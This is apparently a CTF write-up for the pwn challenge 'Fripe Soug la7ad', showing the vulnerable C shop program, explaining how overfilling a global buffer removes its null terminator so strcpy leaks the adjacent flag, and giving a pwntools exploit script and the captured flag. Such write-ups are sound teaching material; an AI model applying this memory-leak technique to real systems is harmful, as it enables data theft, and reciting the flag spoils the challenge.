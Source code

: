 ```yaml
---
layout: post
title: Cybertrace CTF - Fripe Soug la7ad
categories: [Write-Ups, Pwn]
tags: [Write-ups, Pwn]
featured-image:  Images/cybertrace.png
featured-image-alt: Cybertrace CTF
---
```


It's a write-up about the challenge : [Cybertrace CTF - Fripe Soug la7ad]
	
## 1. Challenge

In this task we can see two problems : 
1-No control on the amount of products that will be added into the "my_basket" global variable which size is only 288 bytes
2-in the basket function it copies from my_basket to local_basket without through the strcpy function which only stops copying data when facing null-byte


```
  
#include <stdio.h>
#include <string.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <unistd.h>
//0x55555555a490
int total; //0x555555558040
char my_basket[288]; //0x555555558060
char flag[40]; //0x555555558180

void menu() {
        puts("1. Tfadhel Echri");
        puts("2. L7esba");
        puts("3. Aya Tirr Rawa7");
}

int read_int32() {
        int num;
        printf("> ");
        scanf("%d", &num);
        return num;
}

void add_product(int prod) {
        char *products[] = {"Sabbat Ghzela\n", "Tshirt Nike\n", "Casquette\n", "Maryoul CyberTrace\n"};
        int prices[] = {40, 5, 10, 999};
        int offset = prod - 1;
        memcpy(my_basket + strlen(my_basket), products[offset], strlen(products[offset]));
        total += prices[offset];
}

void buy() {
        int product;
        puts("======= ¡Edhika Laswem! =======");
        puts("1. Sabbat Ghzela (40 DT)");
        puts("2. Klasset Tijani (5 DT)");
        puts("3. Casquette (10 DT)");
        puts("4. Maryoul CyberTrace (999 DT)");
        puts("======= ¡Edhika Laswem! =======");
        product = read_int32();
        if ((1 <= product) && (product <= 4)) {
                add_product(product);
        }
        else {
                puts("No Such Product.");
        }
}

void basket() {
        printf("========== %d DT ==========\n", total);
        char local_basket[350];
        memset(local_basket, 0, 350);
        strcpy(local_basket, my_basket);
        char *prod = strtok(local_basket, "\n");
        int counter = 1;

        while (prod != NULL) {
                printf("%d. %s\n", counter, prod);
                prod = strtok(NULL, "\n");
                counter += 1;
        }

        printf("========== %d DT ==========\n", total);
}

int main() {
        int choice;
        FILE *flag_file = fopen("flag.txt", "r");
        struct stat st;
        stat("flag.txt", &st);
        fread(flag, st.st_size, 1, flag_file);

        while (1) {
                menu();
                choice = read_int32();
                switch(choice) {
                        case 1:
                                buy();
                                break;
                        case 2:
                                basket();
                                break;
                        case 3:
                                return 0;
                        default:
                                puts("Invalid Choice.");
                }
        }
}

```

## 2. Solution

My approach was to fill with the correct amount of items in the my_basket variable to overwrite the null-terminator in my_basket so when the strcpy triggers it will copy the flag too.
They both exist in the bss section since they are both global variables and we can check it by examining the bss address we get this
![bss section](/assets/img/Images/fripe.png)
I was able to overwrite the null-terminator by adding 20 ```Sabbat Ghzela (40 DT)``` and 1 ```Casquette (10 DT)``` 
and here's my exploit to solve the Task
```
from pwn import *

def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


# Specify your GDB script here for debugging
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())


# Set up pwntools for the correct architecture
exe = './Fripe_Souk_Lahad'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Enable verbose logging so we can see exactly what is being sent (info/debug)
context.log_level = 'warn'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Run program 1000 times (hoping for null byte)
io = start()
for i in range(20):

    io.recvuntil("Rawa7\n")
    io.sendline(b"\x31")
    io.recvuntil("====\n")
    io.sendline(b"\x31")
io.sendline(b"\x31")
io.recvuntil("====\n")
io.sendline(b"\x33")
io.recvuntil("Rawa7\n")
io.sendline(b"\x32")


print(io.recvuntil("}"))

```



The flag was : **CyberTrace{h4bL1h_Y4_m4dAM3}**